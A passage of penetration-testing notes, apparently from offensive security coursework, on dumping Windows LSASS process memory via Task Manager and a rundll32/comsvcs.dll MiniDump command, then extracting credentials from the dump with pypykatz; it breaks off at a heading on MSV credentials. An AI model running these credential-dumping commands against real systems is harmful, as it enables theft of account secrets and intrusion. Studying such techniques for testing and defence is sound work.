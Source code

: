 - This is a known technique that may be detected by monitoring tools
- Requires local admin access to execute successfully

# 8.Attacking LSASS

## Overview of LSASS

- **LSASS** (Local Security Authority Subsystem Service) is a critical Windows service for credential management
- LSASS functions:
    - Caches credentials in memory
    - Creates access tokens
    - Enforces security policies
    - Writes to Windows security log

## LSASS Dumping Methods

### Task Manager Method

1. Open Task Manager > Processes tab
2. Find & right-click "Local Security Authority Process"
3. Select "Create dump file"
4. Dump file saved to: `C:\Users\[username]\AppData\Local\Temp\lsass.DMP`

### Rundll32.exe & Comsvcs.dll Method

1. Find LSASS PID:
    - CMD: `tasklist /svc` (find lsass.exe PID)
    - PowerShell: `Get-Process lsass` (see Id field)
2. Create dump file using PowerShell (elevated):
    
    ```
    rundll32 C:\windows\system32\comsvcs.dll, MiniDump [PID] C:\lsass.dmp
    
    ```
    
3. Note: Modern AV tools often detect and block this method

## Extracting Credentials with Pypykatz

1. Transfer the dump file to attack host
2. Run pypykatz:
    
    ```
    pypykatz lsa minidump /path/to/lsass.dmp
    
    ```
    
3. Pypykatz extracts multiple credential types:

### MSV Authentication
